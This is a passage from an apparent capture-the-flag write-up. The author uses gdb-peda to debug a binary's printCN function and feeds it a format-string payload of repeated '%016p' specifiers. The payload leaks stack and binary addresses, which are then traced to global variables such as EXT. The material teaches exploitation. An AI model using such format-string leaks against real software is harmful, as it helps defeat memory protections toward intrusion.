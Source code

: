        0x0000000000001446 <+401>:   lea    rax,[rbp-0x80]
       0x000000000000144a <+405>:   mov    rdi,rax           
       0x000000000000144d <+408>:   call   0x14e3 <filePrint>
       0x0000000000001452 <+413>:   cmp    DWORD PTR [rbp-0xfc],0x1
       0x0000000000001459 <+420>:   jne    0x14ad <printCN+504> 
    

I’ll add a break a couple instructions later and run it:

    
    
    gdb-peda$ b *printCN+401
    Breakpoint 1 at 0x1446
    gdb-peda$ r print %016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p
    

It hits the break point just after printing the results:

    
    
    0x0055555555915f.0x00000000000005.0x000000006e7076.0x00000000000014.0x007fffffffdbf0.           (nil).0x007fffffffe154.0x30252e7036313025.0x363130252e703631.0x2e70363130252e70[!] ERR reading /opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn!
    ...[snip]...
    Breakpoint 1, 0x0000555555555452 in printCN ()
    gdb-peda$
    

I can examine what’s in memory at some of these addresses:

    
    
    gdb-peda$ x/s 0x0055555555915f
    0x55555555915f <EXT>:   ".ovpn"
    gdb-peda$ x/s 0x007fffffffdbf0
    0x7fffffffdbf0: "/opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn"
    gdb-peda$ x/s 0x007fffffffe154
    0x7fffffffe154: "%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p"
    

The first word is the pointer to the string “.ovpn”. `gdb` is nice enough to
tell me it’s the `EXT` variable, which is a global variable defined here in
the source:

    
    
     12 //easyrsa configuration
     13 char ERSA_DIR[]="/opt/easyrsa";
     14 char TA_KEY[]="/opt/easyrsa/clients/ta.key";
     15 char OUTPUT_DIR[]="/opt/easyrsa/clients";
     16 char BASE_CONFIG[]="/opt/easyrsa/clients/base.conf";
     17 char EXT[]=".ovpn";  
    

`gdb` will let me print it by variable name as well:

    
    
    gdb-peda$ x/s &EXT
    0x55555555915f <EXT>:   ".ovpn"
    
